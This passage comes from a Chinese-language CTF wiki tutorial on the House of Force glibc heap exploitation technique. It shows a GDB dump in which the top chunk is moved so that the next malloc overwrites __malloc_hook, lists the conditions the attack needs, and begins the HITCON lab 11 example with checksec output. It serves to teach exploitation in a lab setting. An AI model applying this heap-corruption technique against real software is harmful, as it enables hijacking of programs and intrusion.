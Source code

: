 ```
0x7ffff7dd1b20 <main_arena>:	0x0000000100000000	0x0000000000000000
0x7ffff7dd1b30 <main_arena+16>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b40 <main_arena+32>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b50 <main_arena+48>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b60 <main_arena+64>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b70 <main_arena+80>:	0x0000000000000000	0x00007ffff7dd1b00 <=== top chunk
0x7ffff7dd1b80 <main_arena+96>:	0x0000000000000000	0x00007ffff7dd1b78
```
之後，我們只要再次分配就可以控制 0x7ffff7dd1b10 處的 __malloc_hook 值了

```
rax = 0x00007ffff7dd1b10
    
0x400562 <main+60>        mov    edi, 0x10
0x400567 <main+65>        call   0x400410 <malloc@plt>
```

## 小總結
在這一節中講解了 House Of Force 的原理並且給出了兩個利用的簡單示例，通過觀察這兩個簡單示例我們會發現其實HOF的利用要求還是相當苛刻的。

* 首先，需要存在漏洞使得用戶能夠控制 top chunk 的 size 域。
* 其次，**需要用戶能自由控制 malloc 的分配大小**
* 第三，分配的次數不能受限制

其實這三點中第二點往往是最難辦的，CTF 題目中往往會給用戶分配堆塊的大小限制最小和最大值使得不能通過HOF 的方法進行利用。

## HITCON training lab 11
[題目鏈接](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/heap/house-of-force/hitcontraning_lab11)

這裏，我們主要修改其 magic 函數爲



### 基本信息

```shell
➜  hitcontraning_lab11 git:(master) file bamboobox     
bamboobox: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=595428ebf89c9bf7b914dd1d2501af50d47bbbe1, not stripped
➜  hitcontraning_lab11 git:(master) checksec bamboobox 
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/house_of_force/hitcontraning_lab11/bamboobox'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

該程序是一個 64 位的動態鏈接程序。

### 基本功能
